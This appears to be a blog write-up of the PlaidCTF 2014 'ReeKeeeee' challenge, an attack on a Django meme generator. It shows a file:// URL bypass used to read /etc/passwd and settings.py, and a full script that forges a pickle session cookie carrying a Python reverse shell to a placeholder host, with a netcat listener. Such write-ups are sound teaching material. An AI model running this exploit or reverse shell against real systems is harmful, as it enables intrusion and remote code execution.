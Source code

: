 ```yaml
---
layout: post
title: "PlaidCTF 2014: ReeKeeeee"
date: 2014-04-14 06:46:01 +0000
permalink: /2014/04/14/plaidctf-2014-reekeeeee/
category: Security
tags:
  - CTF
  - PlaidCTF
  - Security
redirect_from:
  - /blog/plaidctf-2014-reekeeeee/
---
```

ReeKeeeeee was, by far, the most visually painful challenge in the CTF, with a flashing rainbow background on every page.  Blocking scripts was clearly a win here.  Like many of the challenges this year, it turned out to require multiple exploitation steps.

ReeKeeeeee was a meme-generating service that allowed you to provide a URL to an image and text to overlay on the image.  Source code was provided, and it was worth noting that it's a Django app using the <code>django.contrib.sessions.serializers.PickleSerializer</code> serializer.  As the [documentation for the serializer](https://docs.djangoproject.com/en/3.0/topics/http/sessions/) notes, **If the SECRET_KEY is not kept secret and you are using the PickleSerializer, this can lead to arbitrary remote code execution.**  So, maybe, can we get the SECRET_KEY?

#### Getting SECRET_KEY ####
Here's the core of the meme-creation view in views.py:

    try:
      if "http://" in url:
        image = urllib2.urlopen(url)
      else:
        image = urllib2.urlopen("http://"+url)
    except:
      return HttpResponse("Error: couldn't get to that URL"+BACK)
    if int(image.headers["Content-Length"]) > 1024*1024:
      return HttpResponse("File too large")
    fn = get_next_file(username)
    print fn
    open(fn,"w").write(image.read())
    add_text(fn,imghdr.what(fn),text)


Looking at how images are loaded, they are sourced via <code>urllib2.urlopen</code>, then saved to a file, then PIL is used to add text to the image.  If the file is not a valid image type, an exception will be thrown during this phase.  However, **the original file downloaded remains on disk.**  This means we can use the download to source any file and get a copy of it, even though it will be served with the bizarre mimetype image/None.

At first, it appears that only http:// urls are permitted, so we considered that we might be able to source some URL from localhost that might provide us with the application configuration, but we couldn't find any such URL.  I tried building a webserver that sends a redirect to a file:// url, but the Python developers are wise to that.  Then I noticed that it says <code>"http://" in url</code>, which means that it only needs to *contain* http://, but doesn't have to start with that protocol.  So, I began playing around with options to try to use a file:// url, but containing http://.  My first thought was as a username, with something like <code>file://http://@/etc/passwd</code> or <code>file://http://@localhost/etc/passwd</code>, but neither of those worked.  I also tried a query-string like path, with <code>file:///etc/passwd?http://</code>, but that's also just considered part of the filename.  Finally, my teammate Taylor noticed that this construct seems to work: <code>file:///etc/passwd#http://</code>.

Now we needed to find the SECRET_KEY.  Even though we dumped <code>/etc/passwd</code>, and could see users and home directories, we couldn't find settings.py.  It took a few minutes to realize that we could find the directory we were running from by <code>/proc/self/cwd</code>, and based on the provided source, the file was probably at <code>mymeme/settings.py</code>.  Trying <code>file:///proc/self/cwd/mymeme/settings.py#http://</code> for the image URL finally gave us a usable copy of settings.py.

#### SECRET_KEY to flag ####
Given the SECRET_KEY, we can now construct our own session tokens.  Since we're using the pickle session module, we can produce sessions that give us code execution via pickling.  Objects can implement a custom <code>__reduce_\_</code> method that defines how they are to be pickled, and they will be unpickled by calling the relevant "constructor function."  For a general primer on exploiting Python pickling, see [Nelson Elhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/). 

I decide the easiest way to exploit code execution is to use a reverse shell on the box, which can be launched via subprocess.popen.  Since we know python is on the system, but can't be sure of any other tools, I decide to use a python reverse shell.  Here's the script I wrote to construct a new session cookie:

    #!python
    import os
    import subprocess
    import pickle
    from django.core import signing
    from django.contrib.sessions.serializers import PickleSerializer
    
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "mymeme.settings")
    
    class Exploit(object):
      def __reduce__(self):
        return (subprocess.Popen, (
          ("""python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("xxx.myvps.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""),
          0, # Bufsize
          None, # exec
          None, #stdin
          None, #stdout
          None, #stderr
          None, #preexec
          False, #close_fds
          True, # shell
          ))
    
    #pickle.loads(pickle.dumps(Exploit()))
    
    print signing.dumps(Exploit(),
        salt='django.contrib.sessions.backends.signed_cookies',
        serializer=PickleSerializer,
        compress=True)

Running this gives us our new cookie value.  Before I load a page with the cookie, I start a netcat listener with <code>nc -l -p 1234</code> for the shell to connect to.  When I load the page, I see my listener get a connection, and I have a remote shell.  Moving up a directory, I find an executable named something like <code>run_this_for_flag.exe</code> and I run it to get the flag.

#### Conclusion ####
Took an information disclosure + remote code execution via pickle, but just goes to show you how easy it is to escalate a bad use of urlopen to a remote shell.  In fact, had it said <code>url.startswith('http://')</code> instead of <code>'http://' in url</code>, everything would've stopped there.  Small vulnerabilities can lead to big problems.
